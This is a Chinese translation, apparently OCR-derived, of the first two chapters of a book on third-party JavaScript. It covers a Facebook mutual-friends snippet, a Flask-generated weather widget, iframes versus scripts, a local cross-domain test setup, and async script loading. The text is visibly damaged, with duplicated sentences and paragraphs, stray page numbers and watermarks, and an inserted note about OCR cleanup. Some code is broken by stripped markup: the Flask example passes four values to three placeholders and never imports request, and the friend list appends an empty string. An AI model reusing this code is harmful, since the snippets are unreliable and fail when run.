<!-- 上文是简历的其余 HTML 部分 -->
<a href="#" id="show-connections">Show mutual friends</a>
<ul id="mutual-friends">
</ul>
<div id="fb-root"></div>
<script src="/js/jquery.js"></script>
<script src="http://connect.facebook.net/en_US/all.js"></script>
<script>
  FB.init({ appId: 'FACEBOOK_APP_ID' });
  $('#show-connections').click(function() {
    FB.login(function(response) {
      var userID;
      var url;
      if (response.authResponse) {
        userID = response.authResponse.userID;
        url = '/' + userID + '/mutualfriends/jill?fields=name,picture';
        FB.api(url, showMutualFriends);
      }
    });
  });
  function showMutualFriends(response) {
    var out = '';
    var friends = response.data;
    friends.forEach(function (friend) {
      out += '<li>';
      out += '';
      out += friend.name + '</li>';
    });
    $('#mutual-friends').html(out);
  }
</script>
</html>
```

Jill 成功地通过少量的客户端 JavaScript 代码在她的简历中嵌入了一些强大的功能。凭借这项令人印象深刻的工作，她应该没有问题获得一份顶尖的软件工作。

## 客户端 API 访问的优势

值得注意的是，整个示例可以在没有 JavaScript 的情况下完成。但从几个原因考虑，让网站在浏览器中执行这项工作无疑是更好的：

- 在浏览器中执行的代码可以节省带宽和 CPU。
- 速度更快——服务器必须在显示内容之前等待响应。
- 一些网站是完全静态的，客户端 JavaScript 是它们访问 API 的唯一手段。

# 开发一个基础小组件

我们已经探索了第三方 JavaScript的一些流行用途。你已经看到它可以如何用于小组件开发、分析收集以及作为 Web 服务 API 的客户端封装器。希望这让你对设计自己的第三方应用时可能实现的功能有了直观认识。现在你已经过了一些真实案例，是时候自己来开发点东西了。让我们从一个相当简单的开始：一个基础的嵌入式小组件。

假设你经营一个提供实时当地天气信息的网站。传统上，用户直接访问你的网站获取最新的天气新闻。但为了接触更广泛的受众，你决定更进一步，让用户在你的网站之外访问你的数据。你将通过提供服务的嵌入式小组件版本来实现，如图 1.7 所示。


图 1.7

在发布页面上显示的天气小组件

www.it-ebooks.info

## 第三方 JavaScript 简介

你将此小组件推销给那些希望向读者提供本地天气信息的发布者，他们可以通过轻松安装第三方脚本来实现这一功能。幸运的是，你已经找到了一个感兴趣的发布者，他们已经同意试用你的小组件。为了让他们开始，你需要为他们提供一段 HTML 代码段，用于在他们的网页上加载天气小组件。发布者会将此代码段复制并粘贴到其 HTML 源代码中希望显示小组件的位置。代码段本身非常简单：它是一个`<script>`标签，指向托管在你服务器（`weathernearby.com`）上的第三方 JavaScript 文件：

```html
<script src="http://weathernearby.com/widget.js?zip=94105"></script>
```

你会注意到该脚本元素的 URL 包含一个参数`zip`。你将通过它来识别要渲染哪个位置的天气信息。

现在，当浏览器加载发布者的网页时，它会遇到这个`<script>`标签，并向你的`weathernearby.com`服务器请求`widget.js`。当`widget.js`被下载并执行时，它将直接把天气小组件渲染到发布者的页面中。这至少是目标。

为了实现这一点，`widget.js`需要访问公司的天气数据。这些数据可以可以直接发布在脚本文件中，但考虑到美国大约有 43,000 个邮政编码，在单个请求中提供这么多数据太多了。除非用户从瑞典或韩国连接（那里 100 Mbps 连接是常态），否则小组件显然需要为天气数据发送单独请求。这通常使用 AJAX 完成，但为了简单起见，我们将使用另一种方法：服务器端脚本生成。

### 1.3.1 服务端 JavaScript 生成

你不再提供包含小组件代码的静态 JavaScript 文件，而是编写一个服务器应用程序，为每个请求生成一个 JavaScript 文件（见图 1.8）。因为你的服务器可以访问天气数据库，它可以将请求的天气数据注入到输出的 JavaScript文件中。这意味着 JavaScript 文件将包含在发布者页面上渲染天气小组件所需的所有代码和数据，而无需任何额外的请求。

该服务器应用程序可以使用任何可以在服务器环境中执行的编程语言或平台编写，例如 Ruby、PHP、Java、ASP.NET——甚至是服务器端 JavaScript。这些都是不错的选择，但我们将带你通过一个用 Python 编写的示例，这是一种流行的脚本语言。该示例还使用了 Flask，这是一个用于构建小型 Web 应用的 Python 微框架。如果你不熟悉 Python，不用担心——代码很容易读懂。如果你想自己尝试列表 1.5 中的示例，请参阅配套源码，其中也包含了安装 Python (2.x) 和 Flask 的说明。

## 开发一个基础小组件

### 为什么用 Python？

书中少数几个服务端示例都是用 Python 编写的。我们选择这种编程语言的理由完全出于偏见：它是我们在 Disqus 每天使用的工具，我们对它最熟悉。如果你不知道如何写 Python，没关系。这从上是一本关于 JavaScript 的书，服务端示例可以很容易地重写为任何语言。

#### server.py

```python
from flask import Flask, make_response
from myapp import get_weather_data

app = Flask(__name__)

@app.route('/widget.js')
def weather_widget():
    zip = request.args.get('zip')
    data = get_weather_data(zip)
    out = '''
    document.write(
        '<div>' +
        '<p>%s</p>' +
        ' ' +
        '<p><strong>%s &deg;F</strong> &mdash; %s</p>' +
        '</div>'
    );
    ''' % (data['location'], data['image'], data['temp'], data['desc'])
    response = make_response(out)
    response.headers['Content-Type'] = 'application/javascript'
    return response
```

列表 1.5 用 Python 和 Flask 编写的 widget.js 服务实现——server.py

| 图 1.8 | 动态生成 Weather Nearby 小组件代码 (widget.js) 的服务器应用程序 |
| :--- | :--- |
| 1. 浏览器向发布者请求网站 | **初始化 Flask 应用程序。** |
| 2. 发布者将 weathernearby 代码段插入网站 HTML 源代码中 | **定义单一路由：'/widget.js'。当服务器启动时，Flask 将监听所有对 /widget.js 的请求并通过执行此函数进行响应。** |
| 3. 浏览器解析 HTML – 代码段向第三方服务器发起请求 | **从请求的查询字符串中提取 zip 参数，并查询天气数据库获取相应的天气数据。** |
| 4. 服务器动态生成 widget.js | **组装多行 JavaScript 代码字符串，将在发布者页面上渲染小组件内容。这使用了 JavaScript 的 document.write 函数，它可以直接将字符串写入页面。** |

当此服务器端点运行后，对`http://weathernearby.com/widget.js?zip=94105`的`<script>`请求应该返回以下 JavaScript 代码。这渲染了你在本节开头看到的示例小组件。此外，请注意该代码是从 Python 服务的，这对浏览器是完全透明的。

```javascript
document.write(
    '<div>' +
    '<p>San Francisco, CA</p>' +
    '' +
    '<p><strong>87 &deg;F</strong> — Partly Cloudy</p>' +
    '</div>'
);
```

现在，我们之前说这是一个基础示例时，并不是在开玩笑。它输出了一个完全没有任何样式的天气小组件，与用户完全没有任何交互。它看起来很糟糕，而且可能让你的初创天气公司陷入危险。但它确实有效，并说明了发布者网站与第三方代码之间的交互。

这里介绍的某些技术（如使用`document.write`和服务端 Python）并不是生成小组件的唯一方法。由于我们之后会解释的原因，它们是不受欢迎的。在未来的章节中，我们将探索替代的解决方案，并处理更复杂的功能，如样式表、AJAX 和用户会话。

### 使用 iframe 分发小组件

如果你对 Web 开发有一定的经验，你可能会在想：“将此小组件作为 iframe 分发不是更容易吗？”初看似乎是如此，但存在一些不明显的区别，使得第三方脚本成为更好的实现。为了理解为什么，让我们先看看如何使用 iframe 重新创建之前的示例小组件。如果你不熟悉它们，iframe 是设计用于嵌入从 URL 服务的外部内容的块级 HTML 元素。你可以轻松地使用纯 iframe 元素重新创建天气小组件示例，如下：

```html
<iframe style="border:none;height:200;width:150" src="http://weathernearby.com/widget.html?zip=94105"/>
```

你会注意到目标 src 属性发生了变化：它不再指向 JavaScript 文件，而是指向一个 HTML 文档。这一次，你的服务器端点将返回一个包含小组件标记的完整 HTML 文档，完全避免了对 JavaScript 的需求。你还会注意到小组件的是作为 iframe 样式属性的一部分提供。iframe 元素不会扩展以适应其内容，并且需要给它们显式的尺寸。

使用像这样的 iframe 应该产生与 JavaScript 示例相同的输出。那么，为什么即使对于像这样简单的示例，也使用 JavaScript 而不是 iframe 呢？有很多原因，其中大多数都围绕着 iframe 的一个特殊属性：即加载在 iframe 内部的外部内容*无法被*父页面（发布者页面）访问，反之亦然。

- *灵活性*——如果你以后想更改小组件的尺寸，你将无能为力。由于 iframe 的尺寸在父页面上的 iframe 元素上是固定的，而这些属性无法从 iframe 内部加载的内容进行修改，因此没有办法动态调整小组件的大小。
- *美学*——小组件的外观和感受将完全独立于父面的样式。小组件将无法继承字体族、大小或颜色等基本样式。
- *交互*——小组件需要读取或修改发布者的 DOM 吗？如果发布者需要与小组件的内容交互怎么办？多个小组件实例之间可以相互通信吗？使用静态 iframe 无法实现这些这些。
- *报告*——浏览器用户真的查看过小组件吗？他们在查看之前在页面上花费了多少时间？获取这些其他有价值的统计数据需要在发布者页面上运行 JavaScript。

这些只是几个例子，但你可能开始看到一种趋势。iframe 可能是发布天气小组件示例的最简单机制，但通过这样做，你将失去第三方 JavaScript 提供的许多引人胜的功能。但不要让这影响你对 iframe 的看法。它们是第三方 JavaScript 开发者工具箱中*无价的*资产，在整个本书中，我们将频繁地使用它们来完成许多不同的任务。

# 第三方开发的挑战

你已经学习了第三方 JavaScript 是编写高度可分发应用的强大方式。但在其他人的网站上运行脚本带来着一系列独特的挑战，这些挑战与普通的 JavaScript 编程不同。具体来说，你的代码被执行在一个你无法控制的 DOM 环境中，且位于不同的域上。这意味着你必须应对许多意外的复杂性，例如未知的网页上下文、与其他第一方和第三方脚本共享的 JavaScript 环境，甚至是浏览器实施的限制。我们将快速查看这些内容具体包含什么。

## 未知上下文

当发布者将你的第三方脚本包含在网页上时，你通常对它被放置的上下文了解甚少。你的脚本可能会被包含在 www.it-ebooks.info 页面上，这些页面采用了各种不同的 doctype、DOM 布局和 CSS 规则，并且应该在所有这些环境中正常工作。

你必须考虑，发布者可能会将你的脚本放在页面的顶部、`<head>`标签中，或者他们可能会将其放在`<body>`的底部。发布者可能会在 iframe 内部加载你的应用程序，或者在一个完全没有`<head>`标签的页面上加载它；在 HTML5 中，head 部分是可选的，并不是所有的浏览器都会在内部自动生成它。如果你的脚本在查询或附加到 DOM 时对这些核心元素做出假设，它可能会陷入困扰。

如果你正在开发一个嵌入式小组件，显示适当也变成了一个关注问题。小组件是被放置在浅色背景还是深色背景的网页上？你希望小组件继承样式并“融合”到发布者的网页设计中，还是你希望你的小组件在每种上下文中看起来完全一样？如果发布者的 HTML 是畸形的，导致页面以怪异模式（quirks mode）渲染会发生什么？解决这些问题不仅需要良好的 CSS。我们将在后面的章节中介绍这些问题的解决方案。

## 共享环境

对于给定的网络环境，只有一个全局变量命名空间，由页面上执行的每段代码共享。你不仅必须注意不要用你自己的全局变量污染该命名空间，还必须意识到其他脚本（可能像你这样的其他第三方应用程序）具有修改你可能依赖的标准对象和原型的能力。

例如，考虑全局`JSON`对象。在现代浏览器中，这是一个原生浏览器对象，可以极快地解析和字符串化 JSON（JavaScript 对象表示法）。不幸的是，任何人都可以轻易地修改它。如果你的应用程序依赖于此对象的正常运行，而它被另一段代码以不兼容的方式更改了，你的应用程序可能会产生错误的结果或直接崩溃。

下面的示例代码说明了使用简单的变量赋值修改全局`JSON`对象是多么容易：

```javascript
JSON.stringify = function() {
  /* 自定义的 stringify 实现 */
};
```

你可能会想：“为什么会有人这样做呢？” Web 开发者经常加载自己的 JSON 方法来支持不提供原生方法的旧浏览器。坏消息是，其中一些库在微妙方面是不兼容的。例如，流行的 Prototype JavaScript 库的旧版本提供的 JSON 方法在处理`undefined`值时产生的输出与原生方法不同：

```javascript
// Prototype.js
JSON.stringify([1, 2, undefined]) => "[1, 2]"

// 原生
JSON.stringify([1, 2, undefined]) => "[1, 2, null]"
```

`JSON`对象只是可以被竞争性客户端代码更改的原生浏览器对象的例子；还有成百上千个。在本书中，我们将查看恢复或避免这些对象的解决方案。

同样，DOM 是你需要担心的另一个全局应用程序空间。对于一个网页，只有一个 DOM 树，由页面上的所有应用程序共享。这意味着在与其交互时需要特别小心。你插入 DOM 的任何新元素必须与现有元素共存，并且不要干扰查询 DOM 的其他脚本。同样，如果没有正确进行作用域，你的 DOM 查询可能会无意选中不属于你的元素。反之亦如此；如果你没有仔细选择 ID 和类名，其他应用程序可能会查询你的元素。

由于你的代码与其他脚本处于相同的执行环境中，安全也变成了一个更艰巨的任务。你不仅需要防止用户滥用你的应用程序，还必须考虑运行页面上的其他脚本，甚至是发布者是潜在威胁。例如，如果你正在编写一个与大型热门服务（如社交网络网站）关联的小组件或脚本，发布者可能会兴趣尝试伪造与其页面的交互。

## 浏览器限制


如果未知文档上下文、多个全局命名空间和额外的安全考虑还不够糟糕，浏览器还会主动禁止某些影响第三方脚本的操作。例如，AJAX 已成为 Web 开发者在不刷新页面的情况下获取和提交数据的常用工具。但浏览器的同源策略阻止了`XMLHttpRequest`访问你所在域的其他域（见图 1.9）。如果你正在编写一个需要向你自己域上的应用程序端点获取或发送数据的第三方脚本，你将不得不寻找其他方法。

**18**

第 1 章

### 第三方 JavaScript 简介



图 1.9

Google Chrome 中 localhost 到 google.com 的跨域 AJAX 请求失败

www.it-ebooks.info

**20**

第 1 章

### 第三方 JavaScript 简介

遗憾的是，这个挑战列表只是冰山一角。第三方 JavaScript 开发充满了陷阱，因为归根结底，网络浏览器在设计时并没有考虑到嵌入式应用程序和第三方代码。浏览器正在变得越来越好，新功能不断被引入，以减轻进行第三方开发的某些负担，但这仍然是一场苦战，而且对于任何种类的分布式应用程序，支持旧版浏览器通常是必不可少的。

但别担心。你已经做出了购买这本书的明智决定，这本书将涵盖你的第三方 JavaScript 代码所面临的问题。作为额外的额外奖励，我们甚至还会教你如何解决它们。

### 1.5 总结

第三方 JavaScript 是构建嵌入式和高度可分发 Web 应用程序的强大方式。这些应用程序有许多形状和大小，但我们查看了三个特定的用用例：作为交互式小组件、作为收集数据的被动脚本，以及与第三方 Web API 通信的开发者库。但与开发普通的本地 Web 应用程序相比，第三方脚本面临着额外的挑战。它们要求你在一个未知的、共享的且可能存在敌意的浏览器环境中执行你的代码。

我们对编写第三方脚本的含义仅是触皮一角。在下一章节中，我们将直接进入主题，涵盖一个嵌入式小组件的端到端创建。这是第三方 JavaScript 最常见的用例之一，并作为涵盖第三方概念和挑战的绝佳起点。

www.it-ebooks.info

**21**

## 分发与加载你的应用程序

假设你是一个小型但不断增长的电子商务网站的所有者。你的在线商店专门销售相机和相机配件，并有一个活泼的名字叫 Camera Stork (`http://camerastork.com`)¹。你在吸引业务方面表现出色，已经开发了一群由专业和业余摄影师组成的忠实客户群。你的网站为每个产品提供了一个热闹的评论区，你的许多客户在那里提交了对购买物品的评分和评论。

其中一些客户对你的商店如此痴迷，他们他们希望在自己的博客和网站上直接引用你的产品。过去，你向发布者提供推荐 URL 以便他们直接链接到你的产品，但体验并不理想，你想更进一步。

### 本章涵盖

- 配置你的开发环境
- 在发布者的网页上引入脚本
- 加载支持的 JavaScript 文件和库
- 向你的第三方脚本传递参数

¹ 确实，尽管笑吧。以相机为主题的域名很难找。这是他们剩下的全部了！

www.it-ebooks.info

**22**

第 2 章

### 分发与加载你的应用程序

解决方案：一个嵌入式小组件（见图 2.1），它显示关于特定产品的最新信息，以及一个在你的商店购买的链接。它将包含所有标准的产品信息：名称、照片、价格和平均评分。

但它不会是严格只读的。鉴于你的商店非常强调用户评论，你还希望用户能够从小组件提交新的评论。由于知道谁在评价什么是重要的，你还希望用户能够通过小组件登录，甚至在不同的小组件实例之间保持会话。

正如你所预期的，你将把这个小组件实现为第三方 JavaScript 应用程序。就像第 1 章中的天气小组件示例一样，忠实的粉丝（或发布者）将从你的电子商务商店获取一个 HTML 代码段，并将其插入到他们网页的 HTML 源代码中。这段代码段将加载你的应用程序代码并在他们的网页上渲染小组件。他们在 HTML 源代码中放置代码段的位置决定了小组件将渲染的位置。

我们将在书中开发这个产品小组件。后面的章节将处理更高级的话题：与服务器通信、渲染、维护会话以及性能。但在到达那里之前，我们必须处理一些重要的第一步：让你的应用程序代码在发布者的网站上被加载并执行。

这其中的内容比你预期的要多。首先，你需要编写上述的 HTML 代码段，以便在发布者的网页上加载你的初始脚本文件。然后，你需要加载任何支持的 JavaScript 文件、库和样式表。你还需要弄清楚发布者将如何向你的脚本文件传递参数，以便识别他们试图在页面上嵌入什么产品。和第 1 章的天气小组件示例不同，你将在不使用任何服务器端脚本生成的情况下完成这一切。

但由于这是你首次尝试第三方开发艺术，你还想花几分钟配置你的本地开发机器，以代表你将为之编写代码的跨域环境。让我们接着处理这个问题。

### 2.1 为第三方开发配置环境

正如我们在第 1 章中讨论的，网络浏览器处理与外部服务器通信的脚本与普通脚本文件的方式不同。为了直接解决这些问题，强烈建议你在本地机器上模拟跨域环境。如果不这样做，你在部署代码时将会遇到意外的问题。


**47**

**23**

### 为第三方开发配置环境

正如我们在第 1 章中讨论的，网络浏览器处理与外部服务器通信的脚本与普通脚本文件的方式不同。为了直接解决这些问题，强烈建议你在本地机器上模拟跨域环境。如果不这样做，你在部署代码时将会遇到意外的问题。

#### 2.1.1 发布测试页面

让我们从测试页面开始。这是你加载第三方脚本并执行脚本的环境。任何页面都可以，但我们将从一个基础的 HTML 文件开始：

```html
<!DOCTYPE html>
<html>
<head>
  <title>发布测试页面</title>
</head>
<body>
  <h1>发布测试页面</h1>
  <!-- 在此处引入脚本 -->
</body>
</html>
```

讽刺的是，这个示例中你想要关注的部分是缺失的部分：引入引入段。这是你给发布者的 HTML 代码段，用于在他们的页面上加载你的第三方脚本。我们还没有它，所以先保持留空；我们会回来处理。

现在，这个示例的测试页面很无聊；它只是一个空白页面。但这只是为了让你开始。在理想情况下，你的测试页面将代表目标受众的典型页面。例如，如果你的产品小组件主要针对博客作者，那么测试页面应该展示小组件在典型博客上的样子。你甚至可以使用已知发布者页面的静态副本。你的测试页面与脚本部署的环境越接近，你以后遇到的意外就越少。

**24**

第 2 章

### 发布和加载你的应用程序

你可以在终端中运行以下命令来启动 Apache：

```bash
$ sudo apachectl start
```

默认情况下，OS X (Mountain Lion) 上的 Apache 将`/Library/WebServer/Documents/`映射到`http://localhost/`。如果你将一个名为`test.html`的发布者测试页面添加到此 Documents 文件夹中，它应该可以通过`http://localhost/test.html`访问。

我们将在本教程的稍后部分中调整这些位置。

#### 另一种解决方案：内置服务器

如果你觉得 Apache 这样的专用 Web 服务器软件对你来说太重，大多数流行的编程语言都内置了 Web 服务器支持。例如，你可以使用 Python 中的`SimpleHTTPServer`模块轻松地启动 Web 服务器，该模块在每个 Python 安装中都已包含：

```bash
$ python -m SimpleHTTPServer
```

```text
Serving HTTP on 0.0.0.0 port 8000 ...
```

像这样的即用 Web 服务器的功能比像 Apache 这样的完整服务器要少，但它们非常适合快速提供代码。

#### 2.1.3 模拟多个域名

此时，你已经运行了一个本地 Web 服务器，并且可以通过 localhost 主机名访问你的文件。接下来，我们将解决需要从不同域名来分发你的测试页面和第三方脚本的问题。

好消息是，你不需要花钱去注册域名。你只需要编辑操作系统的 hosts 文件，并创建两个作为 localhost 别名的的条目即可。在 OS X 和基于 Unix 的操作系统上，你应该在`/etc/hosts`中找到你的主机设置。在 Windows 上，请尝试`C:/windows/system32/drivers/etc/hosts`。

请注意，你可能需要管理员权限来编辑 hosts 文件：

```bash
$ sudo vi /etc/hosts
```

在 hosts 文件中添加以下两个条目。Windows 和基于 Unix 的操作系统的格式相同：

```text
127.0.0.1 publisher.dev
127.0.0.1 widget.dev
```

进行此更改后，你应该能够使用`http://publisher.dev`和`http://widget.dev`访问通过 Apache 提供的本地文件。你可能已经意识到`.dev`并不是一个真实的顶级域名 (TLD)。我们建议使用它而不是`.com`或`.net`，这样你就不会与任何具有相同地址的实际网站发生冲突。³

最后最后一步：配置 Apache 将每个域名的根目录指向不同的目录。这样，你就可以将第三方脚本放在一个文件夹中，将测试页面文件放在另一个文件夹中。

³ 我们应该注意，在编写这本书期间，ICANN（互联网分配名称与数字机构）刚刚批准了自定义顶级域名。因此，当你读这本书时，`.dev`实际上可能是一个真实的 TLD 了。

www.it-ebooks.info

**25**

### 为第三方开发配置环境

打开 Apache 的配置文件`httpd.conf`。在 OS X 上，你可以在`/etc/apache2`中找到它。添加以下规则：

```apache
NameVirtualHost *:80

<VirtualHost *:80>
  ServerName publisher.dev
  DocumentRoot "/Users/username/project/publisher"
</VirtualHost>

<VirtualHost *:80>
  ServerName widget.dev
  DocumentRoot "/Users/username/project/widget"
</VirtualHost>
```

完成后，重启 Apache：

```bash
$ sudo apachectl restart
```

现在，你`/publisher`目录中的文件将可以通过`http://publisher.dev`访问，`/widget`目录中的文件将通过`http://widget.dev`访问（见图 2.2）。井井有条！

这只是设置项目的一种方法。你可以自由选择自己的主机名、Web 服务器软件或代码的文件夹位置。在这些章节中，我们主要引用生产环境域名（例如`camerastork.com`），但你始终可以将它们替换为你的本地开发域名进行测试。

`/Users/username/project/publisher`中的文件由 publisher.dev 提供服务。

publisher.dev

虚拟主机

主要 Web 内容

加载自 publisher.dev

第三方组件

加载自 widget.dev

widget.dev

虚拟主机

Apache

`/Users/username/project/widget`中的文件由 widget.dev 提供服务。

你可以使用两个虚拟主机通过单个服务器模拟第三方开发环境。

Web 浏览器

图 2.2

每个虚拟主机指向你文件系统中的一个独立文件夹。

www.it-ebooks.info

**26**

第 2 章

### 发布和加载你的应用程序

（注：此处原文存在大量 OCR 重复和错误，已根据逻辑进行清理并翻译）

#### 2.2 加载初始脚本

现在你已经处理好了开发环境，是时候处理如何在发布者页面上加载你的脚本了。你将通过我们所说的*脚本包含片段*（script include snippet）来实现这一点。

脚本包含片段是你应用程序中最重要的部分之一。它是分发给发布者并实际在他们的 Web 页面上加载你代码的代码。它不仅必须运行，而且必须以最高效加载你的文件。如果做错是有代价的，因为以后让发布者用新版本更新他们的 Web 页面是一项艰巨的任务。

我们将查看可以用于在发布者页面上加载初始脚本的两种包含片段：一个标准的、“阻塞型”`<script>`标签包含，以及一个异步脚本包含。

#### 2.2.1 阻塞脚本包含

让我们从基础开始。你应该已经熟悉如何使用标准的 HTML `<script>`标签加载脚本。使用它加载初始脚本文件是简单的：只需给发布者一个标准的`<script>`标签并粘贴到他们的 HTML 源文件中，其`src`属性指向你的 JavaScript 文件。这是你可以给发布者的最简单、最小的代码。如果你还记得，我们在第 1 章的天气示例中使用了它。以下是加载单个实例的标准脚本包含的示例：

```html
<script src="http://camerastork.com/widget.js?product=1234"></script>
```

`src`属性指向 JavaScript 文件`widget.js`，它托管在你的服务器`http://camerastork.com`上。URL 中的查询字符串是一个产品 ID。这就是你识别在发布者页面上渲染哪个产品的方法。

28

第 2 章

### 分发和加载你的应用程序

页面。然后，当浏览器完成页面处理后，它会按照遇到的顺序执行任何延迟的脚本（见图 2.3）。

以下是我们之前看到的相同`<script>`标签的示例，这次带上了`defer`属性：

```html
<script defer src="http://camerastork.com/widget.js?product=1234"></script>
```

`defer`属性已经存在了一段时间，并且在主流浏览器中获得了相当广泛的支持。唯一值得注意的例外是 Opera，该属性在其中会被忽略，导致`<script>`标签被视为普通的阻塞脚本。

#### XHTML 和强制性属性值

如果你觉得这种不带值的`defer`属性用法看起来很奇怪，那可能是因为你习惯在 XHTML 环境下工作。在 XHTML 的世界里，`defer`示例的写法应该像这样：

```html
<script defer="defer" src="http://camerastork.com/widget.js?product=1234"></script>
```

这是因为 XHTML 要求属性必须有值，而 HTML 不需要。本书书中的代码示例都是用 HTML 编写的，而不是 XHTML。

#### ASYNC 脚本属性

第二个属性`async`是 HTML5 的一个较新特性，它的行为与`defer`略有不同。同样，它表示下载的文件不会调用`document.write`，并且可以在页面处理时正在进行下载。但与`defer`（仅在页面完全解析后才执行文件）不同，使用`async`属性加载的脚本一旦下载完成就会执行——无论页面是否完成处理。这意味着`async`脚本可能比使用`defer`加载的脚本更早执行（见图 2.3）。

![脚本 A 请求 Web 服务器 网页 网页 脚本 B 请求 脚本 B 响应 文档就绪 脚本 A 和 B 执行 脚本 A 响应 脚本 A 请求 Web 服务器 脚本 B 请求 脚本 B 响应 脚本 B 执行 脚本 A 执行 图 2.3]

同时使用`defer`和`async`属性加载的两个脚本（A 和 B）。使用`async`属性加载的文件在下载后立即执行，而使用`defer`加载的文件则等待文档完全解析。

www.it-ebooks.info

29

### 加载初始脚本

这里是再次使用`async`属性的小部件脚本：

```html
<script async src="http://camerastork.com/widget.js?product=1234"></script>
```

虽然`async`和`defer`都是防止你的脚本阻塞发布者页面的有用属性，但我们认为对于第三方脚本，`async`是更好的选择。因为`async`脚本可以在页面完成处理之前执行，它们能够让你的脚本文件尽可能地初始化并运行你的应用程序。另一方面，延迟脚本（Deferred scripts）可能会花费大量时间等待浏览器完成页面处理。

唉，像许多 HTML5 特性一样，`async`属性的缺点是并不是每个浏览器都支持。你会发现只有像 Firefox 3.6+、Chrome、Safari 和 Internet Explorer 10 这样的“现代”浏览器才能识别它。这意味着还有许多旧的但仍在积极使用的浏览器并不支持`async`属性。但我们的运气并不差：还有另一种异步加载脚本的方法，可以与这些旧浏览器向后兼容。

#### 何时使用阻塞脚本

同步脚本并不是全不好。在某些情况下，你可能需要一个阻塞的`<script>`标签。例如，如果你需要在其他任何内容渲染之前向页面渲染 HTML，你将需要使用阻塞脚本。渲染新元素的异步脚本可能在页面大部分加载后才可能开始渲染，这可能会导致元素重流（reflow）并暂时显示效果糟糕。

#### 2.2.3 动态脚本插入

事实证明，你可以通过在 JavaScript 中动态创建一个脚本 DOM 元素并将其附加到发布者的页面上，重新实现`async`属性的行为。由于你可以将此脚本元素附加到任意 DOM 位置（即使是已经被浏览器处理过的位置），浏览器也不会保留以这种方式加载的 JavaScript 的执行顺序。而且由于执行顺序没有被保留，浏览器会并行下载这些文件。这就是你在新旧浏览器中实现异步脚本加载的路径。

以下是使用动态`<script>`标签插入时脚本包含代码段的写法：

```html
<script>
(function() {
  var script = document.createElement('script');
```


```javascript
script.src = 'http://camerastork.com/widget.js?product=1234';
script.async = true;

var entry = document.getElementsByTagName('script')[0];

entry.parentNode.insertBefore(script, entry);
})();
```

### 列表 2.1 异步脚本包含

- 立即执行函数表达式（IIFE）防止声明的变量泄漏到全局作用域。
- 创建新的脚本 DOM 元素。
- 将 `async` 属性设置为 `true` 以支持在 Opera 和旧版本的 Firefox 中异步加载。

让我们讨论一下这个示例的一些有趣点。你会注意到脚本元素的 `async` 属性被设置为 `true`。这不仅仅是为了以后——Opera 和某些版本的 Firefox 要求在下载后立即执行。否则，它们将尝试保留执行顺序（类似于 `defer` 属性）。

其次，你会注意到整个代码被包裹在一个立即执行函数中。这防止了脚本和 `entry` 变量泄漏到全局作用域。记住：此代码运行在发布者的页面上，该页面可能包含许多未知脚本。

### 无错误的 `<script>` 标签插入

在之前的示例中，脚本元素被插在另一个脚本元素之前。或者，你可以将 `<script>` 标签添加到 `head` 或 `body`，但这并不总是安全的。在某些浏览器中，可以在没有 `head` 元素的情况下加载网页（诚然，这很少见）。而且在解析完成之前添加到 `body` 元素可能会导致浏览器异常。

在找到脚本元素之前插入是避免这些问题的可靠方法。而且你可以始终保证至少有一个脚本元素：即加载你应用程序的那个。

你可能在心里想：“我们为什么要如此关注这个包含代码段？”在涉及第三方开发时，第一印象非常重要。一旦你将此包含代码段分发给发布者，让他们更改将极其困难。不幸的是，由于你没有访问托管他们网站服务器的权限，你无法为他们更改。先提出你的解决方案是个好主意。

### 更快的脚本加载

如果你对学习更多更快速加载脚本的技术感兴趣，你将会阅读 Steve Souders 写的《高性能网站》系列书籍（O'Reilly 出）。Steve 涵盖了所有可能的加载脚本的方法，其中某些方法可以为你的应用程序带来巨大的性能提升。我们将在第 9 章“性能”中讨论其中一些与第三方脚本相关的技巧。

我们现在先到此，但我们将在本章晚些时候再次回到脚本包含代码段。在此期间，假设你已经将异步包含代码段给了你商店的一位忠实粉丝，他们将其添加到了网页的 HTML 源码中并发布。

这将导致你的应用程序的初始脚本文件 `widget.js` 在他们的网页上加载。让我们看看这个文件的内部，看看它在做什么。

**通过在现有的 `<script>` 标签之前向 DOM 注入脚本元素。插入后，浏览器开始下载目标脚本文件。**

### 初始脚本文件

#### 2.3 初始脚本文件

此时，发布商正在使用你的脚本包含片段，该片段会从你的服务器请求单个脚本文件并将其加载到他们的页面上。这个文件 `widget.js` 是你的第三方应用程序的主入口点。它负责整个流程：加载任何额外的代码或资源、获取产品数据，并最终在页面上渲染组件。

以下是 `widget.js` 的高级概述。

```javascript
var Stork = (function(window, undefined) {
  var Stork = {};
  function loadSupportingFiles(callback) {}
  function getWidgetParams() {}
  function getRatingData(params, callback) {}
  function drawWidget() {}
  /* ... */
  loadSupportingFiles(function() {
    var params = getWidgetParams();
    getRatingData(params, function() {
      drawWidget();
    });
  });

  return Stork;
})(window);
```

## JavaScript 中的命名空间

你可能以前在 JavaScript 中见过命名空间对象。例如，jQuery 库将其所有公共方法都放在 `jQuery` 对象之后（为了方便，jQuery 也将该对象别命名为 `$`）。命名空间在几乎所有的 JavaScript 库中都很常见，并且是一种良好的编程实践。

在大多数情况下，`widget.js` 是空的；它只是一些我们很快就会填充的样板代码。但在查看其中一些存位函数的实现之前，我们想强调几点内容。

### 2.3.1 为 `window` 和 `undefined` 取别名

列表 2.2 中的函数表达式有两个参数：`window` 和 `undefined`。你可能识别出它们是可以在每个作用域内都可访问的全局对象。那么，为什么要将它们重新声明为函数参数呢？

首先，`window` 和 `undefined` 是你可能在代码中反复使用的两个对象。当它们像这样被声明为局部变量时，JavaScript 压缩器可以缩短它们的变量名，以帮助减少脚本文件的大小。但如果它们作为全局变量被引用，这些引用是无法被重命名和缩短的。

### 列表 2.2：`widget.js`：主脚本主体

| 说明 |
| :--- |
| `Stork` 全局变量是一个封装了你应用程序的命名空间对象。命名空间对象的目的是存放你的应用程序将暴露的任何公共函数。与其全局声明这些函数，不如将它们赋值为 `Stork` 命名空间的属性，以防止它们泄漏到全局变量作用域并可能与其他代码发生冲突。 |
| 这些空的函数存位封装了我们稍后将介绍的应用部分。 |
| 主应用程序流——初始化、加载和渲染组件。 |
| IIFE（立即调用函数表达式）防止局部变量和函数泄漏到全局作用域。如果你现在还没发现，我们采取了巨大的措施来避免全局变量！ |

## JavaScript 压缩器

JavaScript 压缩器是某些工具，它们获取 JavaScript 源代码并将其重写为尽可能短，以减小文件大小。这通常通过删除空格、将变量重命名为尽可能短的形式或使用常用操作的替代简短形式来实现。

